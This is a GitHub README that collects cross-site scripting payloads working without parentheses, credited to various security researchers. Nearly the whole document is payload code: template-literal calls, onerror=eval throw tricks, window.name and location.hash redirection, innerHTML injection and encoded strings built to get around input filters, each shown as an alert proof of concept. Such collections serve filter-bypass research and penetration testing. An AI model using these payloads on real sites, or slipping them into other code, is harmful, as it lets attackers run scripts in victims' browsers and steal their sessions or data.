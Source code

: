# XSS Without parentheses () 


### This repo contains XSS payloads that doesn't require parentheses, collected from tweets, blogs...
### All the POC's are alert box with number 23

---
    alert`23`
---
    window.name="javascript:alert(23)";
    location="xss.html";
xss.html

    location=name

---

[Cure53](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-2)


    eval.call`${'alert\x2823\x29'}`


---

[Renwa](https://twitter.com/RenwaX23)


    eval.apply`${[`alert\x2823\x29`]}`
    
---

[Bo0oM](https://twitter.com/i_bo0om/status/687652257609957376)


    setTimeout`alert\x2823\x29`
    setInterval`alert\x2823\x29`
    
---

[Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=alert;throw 23;

---
[Garethheyes](https://twitter.com/garethheyes/status/1128974215682637825)

    'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---
[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----
[terjanq](https://twitter.com/terjanq/status/1126614389371621378)

xss_redir.html
```
window.name='1;var Uncaught=1;alert(23)';
location='xss_short.html';
```
xss_short.html
```
{onerror=eval}throw/0/+name
```

---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]
    
---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```
    
---

[terjanq](https://twitter.com/terjanq)

 `%0aalert(/1337/)//` anywhere in the URL

```js
Function`a${unescape.call`${location}`}```
```
    
---


Function`a${unescape. call`${location}`}```
Only Firefox [Garethheyes](https://twitter.com/garethheyes/status/1126922526796468224)
          
    {onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:'',message:'alert\x2823\x29'}
---

[ycam](https://twitter.com/ycam_asafety/status/1126976315666706433)

```
example.com/xss#*/;alert(23);
```
```
throw/**/onerror=Uncaught=eval,e={lineNumber:1,columnNumber:1,fileName:'',message:'/*'+location.hash},typeof/**/InstallTrigger!='undefined'?e:e.message
```
---
[cgvwzq](https://twitter.com/cgvwzq/status/1126994744268267527)

[https://demo.vwzq.net/lol.html](https://demo.vwzq.net/lol.html)

```
<script/id=Uncaught>

// chrome + firefox

throw[onerror=eval][e=[x=/-alert(1)/.source]]=0[e.lineNumber=e.columnNumber=e.fileName=e.message=x]=e

</script>

<script>

// firefox

onhashchange=setTimeout,HashChangeEvent.prototype[Symbol.toStringTag]=/=alert(2)/.source,location.hash=1

</script>

<script>

// chrome + firefox

Array.prototype[Symbol.hasInstance]=eval,'alert\x283\x29'instanceof[]

</script>

<script>

// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert\x284\x29//']

</script>


<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert\x285\x29//',lol

</script>
```

---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)

```
document.body.innerHTML="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
```
    
---
[Renwa](https://twitter.com/RenwaX23)

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---

[terjanq](https://twitter.com/terjanq)

Put `%0aalert(/1337/)//` anywhere in the URL. Then, arbitrary code can be executed via:

```js
location='javascript:'+location
```

```js
location=/javascript:/.source+location
```

```js
location=`javascript:`+location
```

---

[terjanq](https://twitter.com/terjanq)

Custom strings without `` ()'"` ``
```
x={...eval+0,toString:Array.prototype.shift,length:15},
x+x+x+x+x+x+x+x+x+x+x+x+x,
location = /javascript:/.source + alert.name+x+1337+x
```


___
### Anything: @[RenwaX23](https://twitter.com/RenwaX23)
